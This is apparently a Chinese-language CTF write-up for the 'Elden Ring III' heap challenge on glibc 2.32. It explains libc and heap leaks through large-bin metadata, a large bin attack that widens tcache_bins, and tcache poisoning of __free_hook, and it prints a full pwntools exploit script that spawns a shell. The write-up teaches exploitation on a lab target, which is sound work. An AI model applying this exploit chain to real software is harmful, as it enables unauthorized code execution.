

# Elden Ring III

## 题目简述

题目提供典型的堆菜单操作 `add`、`delete`、`edit`、`show`，但只能申请较大的 chunk。目标环境为 glibc 2.32，存在 UAF，可读写释放后的 chunk。利用链需要完成四件事：

1. 借助 large bin 元数据泄露 libc 与堆基址；
2. 通过 large bin attack 修改 `mp_` 中的 `tcache_bins`，使 `0x500` 级别的大 chunk 也进入 tcache；
3. 修改扩展后的 `tcache_perthread_struct`，把相应链表头指向 `__free_hook`；
4. 将 `__free_hook` 改为 `system`，再释放保存 `/bin/sh` 的 chunk。

## 解题过程

### large bin 泄露

large bin 中只有一个 chunk 时，其 `fd`、`bk` 指向 `main_arena` 附近，可用于计算 libc 基址；`fd_nextsize`、`bk_nextsize` 则会指回该 large chunk，可用于恢复堆基址。官方利用中先从 `show(1)` 读取 `fd`：

```python
out = u64(io.recv(6).ljust(8, b"\x00"))
libc_base = out - libc.sym["__malloc_hook"] - 1168 - 0x10
```

随后读取被放入 large bin 的 `0x700` chunk 的原始 `fd`，篡改 `bk_nextsize` 以发动 large bin attack。泄露堆地址时会临时覆盖 `fd`、`bk`，后续仍需使用该链表，所以读完后必须把原来的 `out` 写回，避免破坏 large bin 一致性。

### 扩大 tcache 覆盖范围

默认 `tcache_bins` 为 `0x40`，只覆盖 `0x20` 到 `0x410` 的 64 个 size class。令 large bin attack 的写入目标为 `mp_ + 0x50`，即可把该字段改成一个堆地址量级的大数，使 `0x500` chunk 在释放时也进入 tcache。

这会让调试器的 `bins` 展示产生误导：超出默认 64 项的 `entries` 已落到通常所说的 `tcache_perthread_struct` 之后。应直接查看内存，确认大 chunk 的实际链表头。图中绿色区域是 `0x500` chunk 的范围，底部红框才是扩展后相应 size class 的真实 entry；上方红框是调试器误当成链表头的数据。



有了 UAF `edit(1, ...)`，便能直接修改这片扩展 entries 区域，把 `0x510` size class 的链表头设为 `__free_hook`。随后申请同尺寸 chunk 会返回目标地址。

### 完整利用

```python
from pwn import *

context.log_level = "debug"
context.arch = "amd64"

# io = process("./vuln")
io = remote("week-3.hgame.lwsec.cn", 32088)
elf = ELF("./vuln")
libc = ELF("./libc-2.32.so")


def add(index, size):
    io.sendlineafter(b"5. Exit", b"1")
    io.sendlineafter(b"Index: ", str(index).encode())
    io.sendlineafter(b"Size: ", str(size).encode())


def delete(index):
    io.sendlineafter(b"5. Exit", b"2")
    io.sendlineafter(b"Index: ", str(index).encode())


def edit(index, content):
    io.sendlineafter(b"5. Exit", b"3")
    io.sendlineafter(b"Index: ", str(index).encode())
    io.sendafter(b"Content: ", content)


def show(index):
    io.sendlineafter(b"5. Exit", b"4")
    io.sendlineafter(b"Index: ", str(index).encode())


# 先制造 large bin，并从 fd 泄露 main_arena。
add(1, 0x500)
add(2, 0x600)
add(3, 0x700)
delete(1)
delete(3)
add(4, 0x700)
show(1)

out = u64(io.recv(6).ljust(8, b"\x00"))
libc_base = out - libc.sym["__malloc_hook"] - 1168 - 0x10
free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.sym["system"]

# 该偏移来自题目给定 libc-2.32.so；换 libc 时必须重新计算。
mp_offset = 0x7FB195CDC280 - 0x7FB195AF9000
mp_addr = libc_base + mp_offset
target = mp_addr + 0x50

log.success(f"libc base: {libc_base:#x}")
log.success(f"mp_: {mp_addr:#x}")

# 准备两个不同大小的 large chunk，伪造 nextsize 链指向 target-0x20。
add(10, 0x500)  # 取出最初的 chunk 1，但旧指针仍可 UAF。
add(5, 0x700)
add(6, 0x500)
add(7, 0x6F0)
add(8, 0x500)
delete(5)
add(9, 0x900)
delete(7)

show(5)
fd = u64(io.recv(6).ljust(8, b"\x00"))
edit(5, p64(fd) * 2 + p64(target - 0x20) * 2)
add(11, 0x900)  # 触发 large bin attack，扩大 tcache_bins。

# 从 nextsize 指针泄露 heap，并恢复先前被覆盖的 fd、bk。
edit(1, b"A" * 0x10)
show(1)
io.recvuntil(b"A" * 0x10)
heap_base = u64(io.recv(6).ljust(8, b"\x00")) - 0x290
edit(1, p64(out) * 2)
log.success(f"heap base: {heap_base:#x}")

# 让 0x500 chunk 进入扩展后的 tcache，再改写相应 entry 为 free_hook。
add(2, 0x500)
delete(2)
edit(1, p64(libc_base) * 2 + p64(heap_base) * 2 + p64(0) * 9 + p64(free_hook))

add(3, 0x500)          # 返回 __free_hook。
edit(3, p64(system))
edit(6, b"/bin/sh\x00")
delete(6)

io.interactive()
```

脚本最终进入交互 shell。官方 PDF 没有记录远端 flag 字符串，因此这里保留完整利用链，不虚构具体 flag。

## 方法总结

- 单个 large-bin chunk 的 `fd/bk` 与 `fd_nextsize/bk_nextsize` 分别提供 libc、heap 泄露面。
- large bin attack 本身只提供受限写；本题先用它扩大 `tcache_bins`，再把 UAF 转化为大尺寸 tcache poisoning。
- 修改 large-bin 元数据后若还要继续使用该链表，必须恢复被覆盖的关键指针，否则后续分配会在一致性检查处崩溃。
- `mp_` 偏移、arena 偏移和 hook 是否存在都与 libc 版本绑定；该脚本仅适用于题目给定的 glibc 2.32。
